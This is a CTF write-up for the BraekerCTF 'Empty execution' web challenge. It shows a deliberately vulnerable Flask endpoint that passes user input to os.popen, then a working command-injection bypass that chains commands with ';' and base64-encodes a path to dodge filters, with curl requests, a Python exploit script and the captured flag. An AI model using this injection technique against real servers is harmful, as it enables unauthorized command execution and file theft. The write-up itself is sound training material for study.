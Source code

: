 ### CTF: BRAEKERCTF


### Challenge:

- Empty execution [web]


### Challenge 1: Empty execution

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd88f21-d29a-4ada-a85a-36e21201fa20)

### Source Code:
```     
 from flask import Flask, jsonify, request
 import os


app = Flask(__name__)

# Run commands from leaderbot
@app.route('/run_command', methods=['POST'])
def run_command():

    # Get command
    data = request.get_json()
    if 'command' in data:
        command = str(data['command'])

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

        # Find path to executable
        executable_to_run = command.split()[0]

        # Check if we can execute the binary
        if os.access(executable_to_run, os.X_OK):

            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

    return jsonify({'message': 'Not implemented'}), 501


if __name__ == '__main__':   
    # Make sure we can only execute binaries in the executables directory
    os.chdir('./executables/')
    # Run server
    app.run(host='0.0.0.0', port=80)
```

- The goal of this challenge is to read flag.txt.After reading the source code,I noticed that the webpage is vulnerable to command injection because the
the os method `popen` executes shell commands on the server.

  
            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

- This code changes directory to a directory named executables

       # Make sure we can only execute binaries in the executables directory
         os.chdir('./executables/')
  
### Security checks
- But the code filters some characters from the user input e.git raises an alert `Hacking attempt detected` if the user input contains '..' or '/'.
It also raises a `command too short` error if the user input is lesser than 5 .

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

- Lastly, it uses the split() method to cut characters before `[space]`, tag it as the variable executable_to_run and use os.access()
to check if the binary or executable can be executed.If it cannot be executed,it raises an error message `Not implemented`.
    
       # Check if we can execute the binary
            if os.access(executable_to_run, os.X_OK):
    
                # Execute binary if it exists and is executable
                out = os.popen(command).read()
                return jsonify({'message': 'Command output: ' + str(out)}), 200
    
        return jsonify({'message': 'Not implemented'}), 501

### Crafting a Payload

- The first step is to bypass the os.access() filter by ensuring that it returns True,I bypassed it with '. ' because the characters '.' and '..' are present in a linux directory.'.' is a link to your current directory and '..' is a link to the parent directory.I added space after '.' to allow the code split '.' and a couple of gibberish text to bypass the length check.
   
      $ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". zzzzz"}' -H 'Content-Type: application/json'                                                    
      {"message":"Command output: "}

- Now we can execute commands,but I placed ";" after the space to execute close the first statement and execute nother statement.The next step was to find binaries to read the flag.I was able to use `which` to locate binaries and it worked.The `which` binary is used to find binaries path.Using which to find base64 and echo binaries' path confirmed the existence of the binaries on the server.

      $ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". ;which base64;which echo"}' -H 'Content-Type: application/json'
      {"message":"Command output: /bin/base64\n/bin/echo\n"}

- Now we can craft a payload with base64 and echo,I was able to craft this payload `base64 $(echo 'Li4vZmxhZy50eHQK' | base64 -d)`.I encoded '../flag.txt' with base64 since flag.txt is not present in the current directory, we will need to move up one directory and .. and / are both filtered by the code.Echo pipes it to base64 which decodes it and the process is executed with $().Base64 can read files passed to it and return it in base64 encoded text.The flag is encoded and returned back to us in base64 text.

        curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". ;base64 $(echo 'Li4vZmxhZy50eHQK' | base64 -d)"}' -H 'Content-Type: application/json'
      {"message":"Command output: YnJja3tDaDMzcl9VcF9CdWRkWV9KVTV0XzN4M0N1dDNfNF9EMXJlQ1Qwcnl9\n"} 

- I automated it with python to receive the flag and decode it.

      #! /usr/bin/env python3
      import requests
      import json
      import base64
      headers = {"Content-Type": "application/json"}
      data = data = {'command':'. ;base64 $(echo \'Li4vZmxhZy50eHQK\' | base64 -d)'}
      response = requests.post("https://braekerctf-empty-execution.chals.io/run_command",data=json.dumps(data),headers=headers).text
      encodedFlag=json.loads(response)["message"].split('Command output: ')[1].encode()
      print(base64.b64decode(encodedFlag).decode())

- Flag

      $ ./emptyexec.py
        brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}
